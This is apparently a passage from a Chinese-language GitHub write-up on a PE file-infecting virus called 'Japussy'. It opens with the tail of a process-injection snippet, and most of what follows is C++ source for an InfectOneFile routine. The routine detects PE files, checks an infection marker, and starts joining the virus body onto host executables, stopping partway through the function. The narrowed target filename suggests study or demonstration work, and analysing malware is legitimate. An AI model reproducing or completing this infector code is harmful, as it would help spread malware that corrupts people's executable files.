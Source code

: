 ```c++

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
```

## 病毒感染

`Japussy`启动后，通过扫描所有的磁盘文件，进行病毒感染，对于可执行文件，将病毒文件和宿主文件拼接起来，实现原宿主文件的感染，并且在感染文件的最后添加标志位 `0x44444444` 值

```c++ 
void InfectOneFile(const std::string& pathFileName, const std::string& fileName) {
 
    try { //出错则文件正在被使用，退出  
        if (fileName == "JAPUSSY.EXE") { //是自己则不感染  
            return;
        }
 
        if (fileName != "MFCAPPLICATION1.EXE") {
            return;
        }
 
        bool Infected = false;
        bool IsPE = false;
 
        std::ifstream SrcStream(pathFileName, ios::in | ios::binary);  //读取原文件二进制内容
 
        //判断是否已经感染过了
        char buff[32] = { 0 };
        for (int i = 0; i < 0x108; i = i + 2) {
            SrcStream.seekg(i, SrcStream.beg);
            SrcStream.read(buff, 2);
            if ((buff[0] == 0x50) && (buff[1] == 0x45)) { //PE标记
                IsPE = true; //是PE文件
                break;
            }
        }
 
        int iID = 0;
        SrcStream.seekg(-4, SrcStream.end); //检查感染标记
        SrcStream.read((char*)&iID, 4);
 
        SrcStream.seekg(0, SrcStream.end);
        int fileSize = SrcStream.tellg(); //宿主文件大小，后面感染的时候用到
 
        //SrcStream.close(); 这里暂不关闭，后面还用到
 
        if ((iID == ID) || (fileSize < 10240)) { //太小的文件不感染
            Infected = true;
        }
        if (Infected || !IsPE) {
            return;
        }
 
        std::ifstream HdrStream(pathProgramName, ios::in | ios::binary); //病毒文件
        HdrStream.seekg(0, HdrStream.end);
        int virusSize = HdrStream.tellg();
        HdrStream.seekg(0, HdrStream.beg);
        printf("virus fileSize:%d\n", virusSize);
 
        char c[1] = { 0 };
        std::string filebuff;
        while (HdrStream.read(c, 1)) { //病毒文件内容
```